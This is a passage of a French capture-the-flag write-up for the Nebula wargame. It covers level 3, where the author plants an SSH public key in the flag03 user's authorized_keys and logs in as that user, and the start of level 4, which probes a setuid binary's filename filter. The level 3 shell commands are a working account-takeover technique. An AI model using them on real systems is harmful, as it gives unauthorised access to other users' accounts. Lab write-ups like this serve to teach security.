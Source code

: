 ```bash
mkdir -p /home/flag03/.ssh
cp /tmp/ctf_key.pub /home/flag03/.ssh/authorized_keys
^C
level03@nebula:/home/flag03$ mv /tmp/test /home/flag03/writable.d/
```

Et ça fonctionne :

```bash
level03@nebula:/home/flag03$ chmod 600 /tmp/ctf_key
level03@nebula:/home/flag03$ ssh -i /tmp/ctf_key flag03@127.0.0.1
The authenticity of host '127.0.0.1 (127.0.0.1)' can't be established.
ECDSA key fingerprint is ea:8d:09:1d:f1:69:e6:1e:55:c7:ec:e9:76:a1:37:f0.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '127.0.0.1' (ECDSA) to the list of known hosts.

flag03@nebula:~$ id
uid=996(flag03) gid=996(flag03) groups=996(flag03)
flag03@nebula:~$ getflag 
You have successfully executed getflag on a target account
```

## Level 4

On a un binaire setuid et un fichier qu'on ne peut pas lire. On retrouve le nom du fichier `token` dans le binaire ainsi qu'un `strstr`. Visiblement le binaire bloque tout nom de fichier qui contiendrait `token` :

```bash
level04@nebula:/home/flag04$ ls -l
total 8
-rwsr-x--- 1 flag04 level04 7428 2011-11-20 21:52 flag04
-rw------- 1 flag04 flag04    37 2011-11-20 21:52 token
level04@nebula:/home/flag04$ strings flag04 
/lib/ld-linux.so.2
__gmon_start__
libc.so.6
_IO_stdin_used
exit
__stack_chk_fail
printf
strstr
read
open
__libc_start_main
write
GLIBC_2.4
GLIBC_2.0
PTRh 
QVhT
UWVS
[^_]
%s [file to read]
token
You may not access '%s'
Unable to open %s
Unable to read fd %d
;*2$"
level04@nebula:/home/flag04$ ./flag04 token
You may not access 'token'
level04@nebula:/home/flag04$ ./flag04 ./token
You may not access './token'
```
